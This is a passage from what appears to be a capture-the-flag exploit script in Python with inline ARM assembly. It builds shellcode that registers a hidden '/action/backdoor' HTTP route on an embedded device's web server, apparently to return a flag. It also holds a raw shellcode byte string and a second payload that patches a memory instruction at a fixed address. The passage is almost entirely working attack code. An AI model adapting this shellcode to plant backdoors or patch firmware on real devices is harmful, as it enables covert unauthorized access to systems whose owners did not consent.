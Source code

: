 ```python
register2:
adr r0, sbackdoor
adr r1, backdoorcode
movw r4, 0xd28c
movt r4, 0x6004
blx r4

adr r0, route_uri
adr r1, route_handler
mov r2, 0
movw r4, 0x36a0
movt r4, 0x6006
blx r4



cleanup:
ldmia sp!, {r0-r11, pc}

route_handler:
.string "action"
ssuccess:
.string "{\\"status\\": \\"success\\"}"
sbackdoor:
.string "backdoor"
sflag:
.string "flag"
route2_uri:
.string "/"
route_uri:
.string "/action/backdoor"
"""

shellcode2 = asm(shellcode2)

#shellcode2 = b"\x04\x37\x01\xe3\x02\x30\x46\xe3\x00\x00\x00\xe3\xb0\x00\x46\xe3\x14\x10\x8f\xe2\x00\x22\x00\xe3\x00\x22\x00\xe3\x33\xff\x2f\xe1\xbc\x00\x00\xe3\xb0\x00\x46\xe3\x10\xff\x2f\xe1\x26\x00\x8f\xe2\x30\x10\x8f\xe2\x8c\x42\x0d\xe3\x04\x40\x46\xe3\x34\xff\x2f\xe1\x1e\xff\x2f\xe1\x7b\x22\x73\x74\x61\x74\x75\x73\x22\x3a\x20\x22\x73\x75\x63\x63\x65\x73\x73\x22\x7d\x00\x62\x61\x63\x6b\x64\x6f\x6f\x72\x00\x66\x6c\x61\x67\x00\x10\xd0\x4d\xe2\x14\x00\x0b\xe5\x13\x1e\xa0\xe3\xc4\x48\x08\xe3\x05\x40\x46\xe3\x34\xff\x2f\xe1\x05\x40\x46\xe3\x34\xff\x2f\xe1\x05\x40\x46\xe3\x34\xff\x2f\xe1\x2c\x4e\x08\xe3\x05\x40\x46\xe3\x34\xff\x2f\xe1\x00\x20\xa0\xe3\xc4\x47\x07\xe3\x05\x40\x46\xe3\x34\xff\x2f\xe1\x00\x20\xa0\xe1\xf8\x0e\x0d\xe3\x1e\x00\x46\xe3\x01\x1a\xa0\xe3\xf0\x42\x0a\xe3\x06\x40\x46\xe3\x34\xff\x2f\xe1\x04\xd0\x4b\xe2"

assert struct.unpack("I", asm("blx r1"))[0] == 0xe12fff31

shellcode = """
@0x60056944
mov r3, 0x6944
movt r3, 0x6005

@0xe12fff31
mov lr, 0xff31
movt lr, 0xe12f

str lr, [r3]

@0x6004CB30
mov lr, 0xCB30
movt lr, 0x6004

bx lr
```